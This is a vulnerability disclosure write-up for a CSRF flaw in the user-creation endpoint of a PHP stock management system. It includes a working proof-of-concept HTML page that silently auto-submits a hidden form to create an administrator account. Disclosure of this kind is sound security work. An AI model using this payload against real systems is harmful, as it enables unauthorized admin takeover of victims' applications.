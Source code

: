 ### 1. **Summary**

A Cross-Site Request Forgery (CSRF) vulnerability has been identified in the admin panel of Stock Management System (SMS-PHP by oretnom23), specifically on the user's creation page. An attacker can exploit this vulnerability to create a new administrator account with full privileges by submitting a specially crafted request to the vulnerable endpoint.
For reference and further investigation, you can download the source code from [here](https://www.sourcecodester.com/php/15023/stock-management-system-phpoop-source-code.html).
---

### 2. **Vulnerability Description**

CSRF vulnerabilities occur when an attacker tricks an authenticated user into submitting an unwanted request on their behalf. In this case, an attacker can create a new user with admin privileges without the user's consent.

#### Details of the vulnerability:

- The vulnerable endpoint is located at `/sms/classes/Users.php?f=save`.
- The user creation form does not properly validate requests, leaving it open to CSRF attacks.
- The attacker can craft a malicious request and trick the victim (admin user) into executing it.

By exploiting this CSRF vulnerability, an attacker can create a new admin account with full privileges, potentially compromising the security of the entire system.

---

### 3. **Proof of Concept (PoC)**

Below is the PoC that demonstrates the CSRF vulnerability. The attacker can host the following HTML page on their server or send it to the targeted admin user. When the admin user interacts with the page (e.g., clicks a button), the attacker’s script will create a new admin account without the user’s knowledge.


```
<html>
  <body>
    <form action="http://192.168.211.130/sms/classes/Users.php?f=save" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="firstname" value="John" />
      <input type="hidden" name="lastname" value="Doe" />
      <input type="hidden" name="username" value="john" />
      <input type="hidden" name="password" value="Password" />
      <input type="hidden" name="type" value="1" />
      <input type="hidden" name="img" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- **Description of the Attack**:  
    The attacker uses JavaScript to submit a POST request with a malicious payload to the vulnerable user creation endpoint. This request contains a new user’s data, including the `type` parameter set to `1` (indicating an admin account).  
    The attack will only succeed if the admin user is logged in and unaware of the attack.
    
#### **Screenshot of the Newly Created Admin Account**

The following screenshot demonstrates the result of the CSRF attack, showing the new admin account created by the attacker:
![1](https://github.com/th3w0lf-1337/Vulnerabilities/blob/main/SMS-PHP/CSRF/CSRF%20PoC.png)


### 4. **Impact**

If successfully exploited, this CSRF vulnerability can allow an attacker to:

- Create a new admin account.
- Gain full access to the system and its data.
- Potentially escalate the attack to compromise the entire infrastructure, depending on the privileges of the created admin account.
